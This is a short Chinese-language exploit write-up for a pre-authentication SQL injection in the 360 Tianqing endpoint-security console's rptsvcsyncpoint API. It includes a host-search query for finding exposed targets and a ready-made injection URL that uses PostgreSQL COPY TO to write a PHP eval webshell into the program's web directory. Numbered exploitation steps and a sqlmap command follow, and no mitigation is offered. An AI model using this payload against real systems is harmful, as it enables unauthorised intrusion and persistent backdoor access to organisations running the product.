

# 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```


使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```




